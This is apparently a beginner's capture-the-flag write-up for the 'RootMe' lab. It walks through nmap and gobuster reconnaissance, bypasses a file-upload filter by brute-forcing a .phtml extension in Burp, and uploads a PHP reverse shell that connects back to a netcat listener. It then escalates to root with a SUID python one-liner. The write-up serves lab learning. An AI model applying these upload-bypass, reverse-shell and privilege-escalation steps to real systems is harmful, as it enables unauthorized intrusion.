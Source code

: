 # Rootme- A CTF for beginners
- Reconnaissance
- Getting a shell
- Privilege Escalation

![image](./ss.png)

##  Steps-

# 1
- Running the openvpn file ```sudo openvpn CyberSumit.ovpn```
-  Setting the IP as rootme.com
# 2
- Scan the target IP with nmap
```sudo nmap -Pn -sV -vvv -oN npsv.txt```
- Only 2 port numbers are running 22,80.
(no -p- signifies first 1000 ports shall  be scanned)
- Search for known vulnerabilities in Apache 2.4.29
- No Exploits found
# 3.Finding Hidden Directories with gobuster
- ``` gobuster dir -u http://rootme.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```
- we find js,css,uploads and panel as the hidden directories
- -whatever we upload in panel appears in uploads.
# 4.Getting the Revershell
- Look for the php payload and copy it to the present directory and upload it to panel with brute forced extensions to get a shell.
- Open burpsuite and in the proxy setting set the port number to 8085 and install the foxyproxy addon in the browser. Create a Burp proxy in foxy proxy with the port 8085 and IP as given in Burpsuite.
- Enable the intercept in proxy(BurpSuite) and as we upload a file in panel , the requests are shown in the burpsuite then we can alter some things in the request and forward it to the backend with the help of proxy.
- In a similar way we move it to the intruder and select the extension of php file and add it to brute force.
- the .phtml extension was found suitable after the attack.
- Make Sure to add the Host IP and port number to the php file.
- start the netcat listener -```nc -lvnp 2222```
- as we upload the phtml file to panel and then click on it from the uploads we can get a connection in out kali which has an unstable terminal which we need to stabilize with python commands.
 ```cd Desktop/TryHackMe/rootme```
```cp -r /usr/share/webshells/php/php-reverse-shell.php .```
# Command for Terminal Stabilization
``` python -c 'import pty; pty.spawn("/bin/bash")'```

-  ```export TERM=xterm```

# Command for Privilege Escalations

- Visit ``` python -c 'import pty; pty.spawn("/bin/bash")'```

-  ```export TERM=xterm```
- Copy the SUID command and paste it in the kali terminal to get the root privilege in machine 
- ```python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```
- Find out the FLAGS using suitable commands 
- Command to search a particular name in the system -- ```find / -name user.txt 2>/dev/null```
- 



##KnowledgePlus
- To know your IP go to dnsleaktest.com and to check your IP score go to scamalytics.com 
- Directory-trans - if we can access an image in a platform by the URL then we should try to visit the upload directory, if we are not getting 403 or we are able to bypass the status then the website is vulnerable to directory trans.
- Using page source for directory trans- we can open the page source and find out the hidden directories with the manual testing 

